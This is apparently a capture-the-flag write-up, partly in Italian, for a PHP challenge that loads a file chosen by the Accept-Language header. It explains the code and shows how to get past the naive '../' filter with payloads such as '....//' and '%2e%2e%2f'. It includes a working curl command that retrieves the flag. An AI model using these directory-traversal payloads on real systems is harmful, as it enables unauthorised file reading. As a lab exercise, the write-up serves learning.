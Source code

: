 # 1 - flag

```php
<?php
highlight_file(**FILE**);
$lang = $_SERVER['HTTP_ACCEPT_LANGUAGE'] ?? 'ot';
$lang = explode(',', $lang)[0];
$lang = str_replace('../', '', $lang);
$c = file_get_contents("flags/$lang");
if (!$c) $c = file_get_contents("flags/ot");
echo '<img src="data:image/jpeg;base64,' . base64_encode($c) . '">'
```

### Code Analysis

1. **Displaying the Source Code**
    
    ```php
    php
    Copia codice
    highlight_file(__FILE__);
    ```
    
    This line displays the current PHP file's source code in the browser, highlighted for readability.
    
2. **Getting the Language Preference**
    
    ```php
    php
    Copia codice
    $lang = $_SERVER['HTTP_ACCEPT_LANGUAGE'] ?? 'ot';
    
    ```
    
    - It retrieves the `HTTP_ACCEPT_LANGUAGE` header from the client’s request, which typically indicates the preferred language(s) in a browser.
    - If this header is missing, it defaults to `'ot'`.
    
    > **NB.** in `PHP` ai vari header `HTTP` è aggiunto prima del loro nome il prefisso `HTTP`: `HTTP_ACCEPT_LANGUAGE` si riferisce al vero header `Accept-Language` ⇒ quando faccio richieste con curl o da url, il vero header è senza “HTTP”!!!
    > 
3. **Selecting the Primary Language**
    
    ```php
    php
    Copia codice
    $lang = explode(',', $lang)[0];
    ```
    
    - Since the `HTTP_ACCEPT_LANGUAGE` header can contain multiple languages separated by commas (e.g., `en-US,en;q=0.9`), `explode(',', $lang)[0]` takes the first language code (e.g., `en-US`).
4. **Preventing Directory Traversal**
    
    ```php
    php
    Copia codice
    $lang = str_replace('../', '', $lang);
    ```
    
    - This line removes any `../` sequences from `$lang` to prevent directory traversal attacks, which could allow the attacker to access files outside the intended `flags` directory.
5. **Loading the Flag File**
    
    ```php
    php
    Copia codice
    $c = file_get_contents("flags/$lang");
    if (!$c) $c = file_get_contents("flags/ot");
    ```
    
    - It tries to load a file from the `flags` directory that corresponds to the language code stored in `$lang` (e.g., `flags/en-US`).
    - If the file doesn’t exist, it defaults to loading `flags/ot`.
6. **Displaying the Image**
    
    ```php
    php
    Copia codice
    echo '<img src="data:image/jpeg;base64,' . base64_encode($c) . '">';
    ```
    
    - Converts the contents of the selected file (`$c`) to a base64-encoded string.
    - Embeds the base64 string into an `<img>` tag to display the image inline.

---

- from the directories i can see i have to go up by a directory if i want to “inject” the `flag` file instead of a real `flag`

![image.png](1%20-%20flag%2013d5d651afc28099930ccfe0670cfae3/image.png)

- the input is sanitized `$lang = str_replace('../', '', $lang);` but i can obtain the same result for `../` by trying: `....//` , `%2e%2e%2f`, `../flag%00.jpg`, …

### but how to send requests?

- for example with curl:
curl -H "Accept-Language: ....//....//....//....//flag" [http://localhost:1235/index.php](http://localhost:1235/index.php)

![image.png](1%20-%20flag%2013d5d651afc28099930ccfe0670cfae3/image%201.png)

convert → 35c3_this_flag_is_the_be5t_fl4g

- with `ModHeader` in browser
    
    ![image.png](1%20-%20flag%2013d5d651afc28099930ccfe0670cfae3/image%202.png)
    
    then reload and `inspect`…
